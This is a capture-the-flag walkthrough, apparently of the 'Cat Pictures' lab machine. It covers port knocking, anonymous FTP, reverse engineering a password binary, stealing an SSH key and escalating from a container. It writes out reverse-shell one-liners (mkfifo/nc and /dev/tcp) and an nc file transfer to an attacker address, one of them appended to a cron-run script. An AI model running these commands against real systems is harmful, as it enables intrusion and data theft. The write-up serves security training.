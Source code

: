 # Cat Pictures - Easy

* Add ```catpictures.thm``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v catpictures.thm```:

  * 22/tcp - ssh - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  * 4420/tcp - nvm-express
  * 8080/tcp - http - Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)

* On port 8080, we have a forum for Cat Pictures powered by forum software ```phpBB``` - there is only one post from one topic, and it is posted by 'user'

* The post says the following:

  ```text
  POST ALL YOUR CAT PICTURES HERE :)

  Knock knock! Magic numbers: 1111, 2222, 3333, 4444
  ```

* The 'knock' part here could be referring to port knocking, we can give it a try:

  ```sh
  # install knockd
  # use the above port numbers

  knock catpictures.thm 1111 2222 3333 4444

  # now we can re-scan the machine for any open ports/services
  nmap -T4 -p- -A -Pn -v catpictures.thm
  ```

* Meanwhile, Googling shows us that we can find the phpBB version by navigating to '/styles/prosilver/style.cfg', since the version is not visible in source code; the style config gives us the version as 3.3.3

* After port knocking, if we re-scan the machine, we get open port 21 for FTP; the service on 4420 seems to be related to an internal shell service:

  ```sh
  nc catpictures.thm 4420
  # password required

  # check ftp
  ftp catpictures.thm
  # anonymous login is supported

  ls -la
  # we have a file here

  get note.txt

  exit

  cat note.txt
  ```

* From the note left in FTP, we get to know the password is 'sardinethecat' for the internal shell service - this note is added by user 'catlover'

* We can interact with the internal shell service:

  ```sh
  nc catpictures.thm 4420
  # use above password

  id
  # does not work

  ls
  # this works

  # it seems we are in a limited environment and only some commands are supported

  ls -la /bin
  # shows the commands supported
  # we have bash here

  cd bin
  # this does not work, as mentioned

  # we can continue to enumerate other directories

  ls -la /home
  # we have 'catlover' here

  ls -la /home/catlover
  # there is only one file 'runme'

  /home/catlover/runme
  # this prints a message
  # "THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL"

  # we can try to launch /bin/bash
  /bin/bash
  # after this the service becomes unresponsive
  ```

* As we need a regular shell first in order to access the binary 'runme', we can try one of the reverse-shell one-liners with our ```bash``` program:

  ```sh
  # setup listener on attacker machine
  nc -nvlp 4444

  # in victim shell, we can use a common reverse-shell one-liner
  # changed from sh to /bin/bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.131.57 4444 >/tmp/f

  # this works and we get a reverse shell
  # it is still a limited one

  /home/catlover/runme
  # this asks for a password as well
  # the previous password does not work
  # so we can check this binary further

  # on attacker machine, setup listener for file transfer
  nc -nvlp 4445 > runme

  # in new reverse shell
  nc 10.10.131.57 4445 -w 3 < /home/catlover/runme
  # this transfers 'runme'
  ```

* As we have the 'runme' binary on attacker machine, we can use a tool like 'Ghidra' for basic reverse engineering

* In ```ghidra```, we can view the decompiled ```main``` function:

  ```cpp
  undefined8 main(void)

  {
    __enable_if _Var1;
    basic_ostream *this;
    long in_FS_OFFSET;
    allocator<char> local_69;
    basic_string<char,std--char_traits<char>,std--allocator<char>> local_68 [32];
    basic_string<char,std--char_traits<char>,std--allocator<char>> local_48 [40];
    long local_20;
    
    local_20 = *(long *)(in_FS_OFFSET + 0x28);
    allocator();
    basic_string((char *)local_68,(allocator *)"rebecca");
    ~allocator(&local_69);
    basic_string();
    operator<<<std--char_traits<char>>((basic_ostream *)cout,"Please enter yout password: ");
    operator>><char,std--char_traits<char>,std--allocator<char>>
              ((basic_istream *)cin,(basic_string *)local_48);
    _Var1 = operator==<char>((basic_string *)local_48,(basic_string *)local_68);
    if ((char)_Var1 == '\0') {
      this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"Access Denied");
      operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>)
      ;
    }
    else {
      this = operator<<<std--char_traits<char>>
                      ((basic_ostream *)cout,"Welcome, catlover! SSH key transfer queued! ");
      operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>)
      ;
      system("touch /tmp/gibmethesshkey");
    }
    ~basic_string(local_48);
    ~basic_string(local_68);
    if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                      /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
  }
  ```

* Here, we can see the password for this binary is 'rebecca'; and the binary creates a file at '/tmp/gibmethesshkey' - we can try this now:

  ```sh
  # in reverse shell, run the binary again
  /home/catlover/runme
  # use the above password

  # we can check the SSH key now
  cat /tmp/gibmethesshkey
  # this is an empty file

  # check catlover directory again
  ls -la /home/catlover
  # we have a SSH key here

  cat /home/catlover/id_rsa
  # copy the SSH key

  # in attacker machine, paste the key
  vim catlover_id_rsa

  chmod 600 catlover_id_rsa

  ssh catlover@catpictures.thm -i catlover_id_rsa
  # this works

  # we get logged in as root
  id

  # this seems to be a Docker environment

  hostname
  # hostname is random

  ls -la /
  # we have a .dockerenv file here

  cat /proc/1/cgroup
  # includes docker in the paths provided

  ls -la /root
  # we have a flag here
  # but this is flag1, and not the root flag

  # we have a .bash_history file
  cat .bash_history
  # refers to a script

  ls -la /opt/clean/clean.sh
  # we can edit this, as we are root

  cat /opt/clean/clean.sh
  # seems like a script to clean /tmp directory
  # this could be a cronjob

  cat /etc/crontab
  # no such file

  # we can give it a test by modifying the file
  # and adding a reverse-shell one-liner

  # on attacker machine, setup listener
  nc -nvlp 5555

  # in victim ssh
  echo "/bin/bash -i >& /dev/tcp/10.10.131.57/5555 0>&1" >> /opt/clean/clean.sh

  # in a minute, we get reverse-shell on listener
  # we can get root flag now
  ```
